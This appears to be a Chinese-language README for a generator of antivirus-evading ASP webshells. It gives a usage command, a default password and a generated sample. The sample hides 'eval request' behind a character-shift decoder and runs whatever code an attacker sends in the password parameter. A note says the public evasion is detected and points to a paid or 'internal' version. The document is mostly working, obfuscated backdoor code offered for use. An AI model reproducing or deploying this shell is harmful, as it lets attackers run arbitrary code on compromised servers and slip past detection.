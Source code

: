 # 2019.8.14

已知免杀已失效，获取内部版请戳

https://yzddmr6.tk/2019/08/13/webshell-venom-notice/

## 用法


`python3 asp_venom.py > test.asp`


即在当前目录下生成test.asp

## 默认密码:yzddmr6

可自行修改

## 生成样例:

```
<%
<!--
Function Hsnh(Bjhu):
	Bjhu = Split(Bjhu,"|")
	For x=1 To Ubound(Bjhu)
		Hsnh=Hsnh&Chr(Bjhu(x)-31)
	Next
End Function
EXecutE(Hsnh("|132|149|128|139|63|145|132|144|148|132|146|147|71|65|152|153|131|131|140|145|85|65|72"))
-->
%>
```
